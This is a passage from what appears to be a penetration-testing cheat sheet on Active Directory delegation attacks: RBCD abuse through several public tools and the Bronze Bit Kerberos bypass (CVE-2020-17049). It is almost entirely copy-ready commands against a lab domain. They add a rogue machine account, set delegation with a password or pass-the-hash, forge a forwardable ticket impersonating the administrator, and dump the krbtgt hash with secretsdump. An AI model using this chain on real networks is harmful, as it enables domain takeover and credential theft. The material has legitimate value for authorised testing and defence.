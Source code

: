Ask TGS for LDAP:

```
$ getST.py -spn ldap/DC01.megacorp.local -impersonate 'DC01' -dc-ip 10.10.13.37 megacorp.local/fakemachine1337:'Passw0rd!'
$ ...DCSync...
```

##### rbcd-attack

* [https://github.com/tothi/rbcd-attack](https://github.com/tothi/rbcd-attack)

Configure RBCD on the vulnerable host (DC01):

```
$ ./rbcd.py -f fakemachine1337 -t DC01 -dc-ip 10.10.13.37 megacorp.local/snovvcrash:'Qwe123!@#'
```

##### rbcd_permissions

* [https://github.com/NinjaStyle82/rbcd_permissions](https://github.com/NinjaStyle82/rbcd_permissions)

Configure RBCD on the vulnerable host (DC01) via PtH:

```
$ ./rbcd.py -t 'CN=dc01,OU=Domain Controllers,DC=megacorp,DC=local' -d megacorp.local -c 'CN=fakemachine1337,CN=Computers,DC=megacorp,DC=local' -u snovvcrash -H 79bfd1ab35c67c19715aea7f06da66ee:79bfd1ab35c67c19715aea7f06da66ee -l 10.10.13.37
```

##### Bronze Bit

**CVE-2020-17049**

* [https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-theory/](https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-theory/)
* [https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-attack/](https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-attack/)
* [https://gist.github.com/Kevin-Robertson/9e0f8bfdbf4c1e694e6ff4197f0a4372](https://gist.github.com/Kevin-Robertson/9e0f8bfdbf4c1e694e6ff4197f0a4372)

```
PS > Get-KerberosAESKey -Password 'Passw0rd!' -Salt MEGACORP.LOCALfakemachine1337
AES128 Key: 01C7B89A74F7AEC1007DED2F3DE0A815
AES256 Key: 211E8E3134ED797B0A2BF6C36D1A966B3BED2B24E4AAA9ECEED23D0ABF659E98
```

```
$ addcomputer.py -computer-name fakemachine1337 -computer-pass 'Passw0rd!' -dc-ip 10.10.13.37 -dc-host DC01.megacorp.local megacorp.local/snovvcrash:'Qwe123!@#'
$ ./rbcd.py -t 'CN=dc01,OU=Domain Controllers,DC=megacorp,DC=local' -d megacorp.local -c 'CN=fakemachine1337,CN=Computers,DC=megacorp,DC=local' -u snovvcrash -H 79bfd1ab35c67c19715aea7f06da66ee:79bfd1ab35c67c19715aea7f06da66ee -l 10.10.13.37
$ getST.py -spn ldap/DC01.megacorp.local -impersonate 'administrator' -dc-ip 10.10.13.37 megacorp.local/fakemachine1337 -hashes :FC525C9683E8FE067095BA2DDC971889 -aesKey 211E8E3134ED797B0A2BF6C36D1A966B3BED2B24E4AAA9ECEED23D0ABF659E98 -force-forwardable
$ secretsdump.py DC01.megacorp.local -just-dc-user 'MEGACORP\krbtgt' -dc-ip 10.10.13.37 -no-pass -k
```
